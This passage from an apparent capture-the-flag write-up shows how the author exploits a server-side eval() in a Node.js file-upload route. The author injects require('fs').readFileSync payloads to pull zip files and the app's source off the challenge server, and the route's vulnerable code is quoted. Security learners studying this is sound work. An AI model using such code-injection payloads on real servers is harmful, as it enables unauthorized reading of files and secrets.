Obtaining the pcap zip and the factory_cam required a bit more logic but fortunatly was not too hard as readFileSync supports [encoding](https://nodejs.org/api/fs.html#fs_fs_readfilesync_file_options) options.

20151203133815.zip

{% highlight bash %}
require('fs').readFileSync('/gnome/www/files/20151203133815.zip', {encoding: 'hex'})
{% endhighlight %}

gives us a long hex string (504b0304140000000800ee63. . .) in the post process result. We can take this hex string and put it into a file with some Command Line Kung Fu!

{% highlight bash %}
echo "that hex sting" | xxd -r -p > 20151203133815.zip
{% endhighlight %}

BAM!

And the same for factory_cam_4.zip

{% highlight bash %}
require('fs').readFileSync('/gnome/www/files/factory_cam_4.zip', {encoding: 'hex'})
{% endhighlight %}

#### SG4 Detailed Analysis:

I figured I could dump the index.js from SG4 as I could read files from disk so I went ahead and did that! 

{% highlight bash %}
require('fs').readFileSync('/gnome/www/routes/index.js')
{% endhighlight %}

This resulted in a wall of JavaScript so I used [http://jsbeautifier.org/](http://jsbeautifier.org/) to clean it up. 

Looking at the files upload function we can see the same "eval()" statement as used in the Dosis firmware.

{% highlight java %}
//FILES UPLOAD 
router.post('/files', upload.single('file'), function(req, res, next) {
  if (sessions[sessionid].logged_in === true && sessions[sessionid].user_level > 99) {
  //this should be 99 not 100 (Nedford) 
    var msgs = []; 
    file = req.file.buffer; 
    if (req.file.mimetype === 'image/png') { 
      msgs.push('Upload successful.'); 
      var postproc_syntax = req.body.postproc; 
      console.log("File upload syntax:" + postproc_syntax); 
      if (postproc_syntax != 'none ' && postproc_syntax !== undefined) { 
        msgs.push('Executing post process...');
        var result; 
        d.run(function() { 
          result = eval(' (' + postproc_syntax.replace('execSync ','exec ') + ')'); 
        }); 
        msgs.push('Post process result: ' + result); 
	  } 
{% endhighlight %}
